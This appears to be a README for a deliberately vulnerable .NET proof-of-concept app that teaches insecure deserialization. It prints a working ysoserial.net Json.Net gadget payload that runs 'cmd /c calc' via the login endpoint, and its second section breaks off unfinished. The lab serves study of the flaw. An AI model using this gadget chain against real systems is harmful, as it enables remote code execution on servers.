 # This is a small poc about Insecure Deserialization in .Net. Each function (login, signup,...) have each type of insecure deserialization. 
* With login function, it's refered to Json.Net.
* With signp function, it's refered to XMLSerializer.
# How to use this:
* Download this code
* Open it with Microsoft VS
* Run
# 1. Trigger RCE in login function
* Send this payload (create by ysoserial.net) to localhost:[port]//Account/Login:
  ```
  {
    "username": {
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "$values": [
                "cmd",
                "/c calc"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
        }
    },
    "password": "dummy"
  }
  ```
  # 2. Trigger RCE in sigup function
  ... To be continued...
